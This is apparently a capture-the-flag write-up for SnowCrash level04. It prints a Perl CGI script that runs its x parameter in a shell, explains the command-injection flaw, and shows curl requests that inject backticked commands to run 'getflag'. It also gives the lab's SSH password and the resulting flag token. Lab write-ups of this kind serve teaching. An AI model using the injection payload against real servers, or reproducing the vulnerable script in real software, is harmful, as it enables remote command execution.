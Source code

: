 # Level04

## How to login

```
ssh level04@192.168.1.184 -p 4242
password: qi0maab88jeaj46qoumi7maus
```

## How to get the flag

Once logged, we find a file called 'level04.pl' in the home holder that seems to be a Perl script that uses the CGI (Common Gateway Interface) module to handle web requests.
```
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

After examination of the script, there is a commented line that seems to point that the script is designed to run as a CGI script on a web server running on localhost:4747. We wil use this info later to connect to the server.

It is also observed that the script is highly vulnerable to command injection because it directly converts the user input ($y) into a shell command without any kind of validation or sanitization. An attacker can exploit this by passing malicious input as the x parameter, which will be executed on the server.

So, with this information, we try to send a simple 'ls' command and verify if it is executed or not. For that purpose we use the command 'curl' together with the info obtained previously about the address and port. It's important to add backticks to the command in order to be executed, otherwise only the text 'ls' would be printed.
```
level04@SnowCrash:~$ curl localhost:4747?x="\`ls\`"
level04.pl
```

As expected, the command 'ls' is executed and the content of the home folder is displayed. So the next step is to try to execute 'getflag' and see if there is any luck. We are successful and the flag is found.
```
level04@SnowCrash:~$ curl localhost:4747?x="\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
